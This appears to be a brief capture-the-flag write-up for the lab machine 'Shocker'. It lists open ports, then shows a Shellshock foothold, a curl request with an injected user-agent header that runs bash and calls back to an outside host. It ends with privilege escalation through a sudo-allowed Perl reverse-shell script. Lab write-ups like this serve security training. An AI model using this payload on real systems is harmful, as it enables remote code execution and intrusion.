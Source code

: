 Name & IP Address of Machine:
> SHOCKER : `10.10.10.56`
<!-- TOC -->

- [Synopsis](#synopsis)
- [Enumeration](#enumeration)
- [FootHold](#foothold)
- [Lateral Movement](#lateral-movement)
- [Privilege Escalation](#privilege-escalation)

<!-- /TOC -->



## Synopsis


## Enumeration
Opened Ports: 
- [ ] 80 (WEB-SERVER)
- [ ] 2222 (SSH) -> Wierd

## FootHold
The name of the box is a huge hint to test for shellshock vulnerability. When testing, successs.
Find a bash script in cgi-bin and then confirm the rce via following request.
```bash
curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'curl http://10.10.14.28:8000/etc'" http://127.0.0.1:8000/cgi-bin/user.sh
```

## Lateral Movement
Got `shelly`. run sudo -l and you can see shelly user can run perl with sudo.

## Privilege Escalation

write a perl script(rev.pl) and get rce. 
```bash
sudo /usr/bin/perl rev.pl
```



<!-- ## Thank You 
🕉️  -->


<!-- ## Tools Used.
- [ ] . -->